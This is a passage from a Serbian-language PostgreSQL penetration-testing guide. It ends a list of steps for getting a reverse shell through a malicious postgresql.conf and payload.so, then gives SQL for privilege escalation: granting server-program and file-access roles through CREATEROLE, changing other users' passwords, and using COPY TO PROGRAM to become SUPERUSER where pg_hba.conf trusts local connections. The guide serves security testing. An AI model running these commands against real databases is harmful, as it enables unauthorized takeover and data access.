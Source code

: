 6. Otpremite zlonamerni `postgresql.conf`, kreiran u koracima 2-3, i prepišite originalni
7. Otpremite `payload.so` iz koraka 5 u `/tmp` direktorijum
8. Ponovo učitajte konfiguraciju servera ponovnim pokretanjem servera ili pozivanjem upita `SELECT pg_reload_conf()`
9. Prilikom sledeće DB konekcije, dobićete vezu za reverznu ljusku.

## **Postgres Privesc**

### **Postgres Privesc**

#### **Grant**

Prema [**dokumentaciji**](https://www.postgresql.org/docs/13/sql-grant.html): _Uloge koje imaju privilegiju **`CREATEROLE`** mogu **dodeljivati ili oduzimati članstvo u bilo kojoj ulozi** koja **nije**_ _**superkorisnik**._

Dakle, ako imate dozvolu **`CREATEROLE`** možete sebi dodeliti pristup drugim **ulogama** (koje nisu superkorisnici) što vam može omogućiti čitanje i pisanje datoteka i izvršavanje komandi:

```sql
# Access to execute commands
GRANT pg_execute_server_program TO username;
# Access to read files
GRANT pg_read_server_files TO username;
# Access to write files
GRANT pg_write_server_files TO username;
```

#### Izmena lozinke

Korisnici sa ovom ulogom takođe mogu **promeniti** **lozinke** drugih **korisnika koji nisu superkorisnici**:

```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```

#### Privesc to SUPERUSER

Često je uobičajeno da **lokalni korisnici mogu da se prijave u PostgreSQL bez unošenja bilo kakve lozinke**. Stoga, kada ste prikupili **dozvole za izvršavanje koda**, možete zloupotrebiti ove dozvole da biste dobili ulogu **`SUPERUSER`**:

```sql
COPY (select '') to PROGRAM 'psql -U <super_user> -c "ALTER USER <your_username> WITH SUPERUSER;"';
```

Ovo je obično moguće zbog sledećih linija u datoteci **`pg_hba.conf`**:

```bash
# "local" is for Unix domain socket connections only
local   all             all                                     trust
# IPv4 local connections:
host    all             all             127.0.0.1/32            trust
# IPv6 local connections:
host    all             all             ::1/128                 trust
```
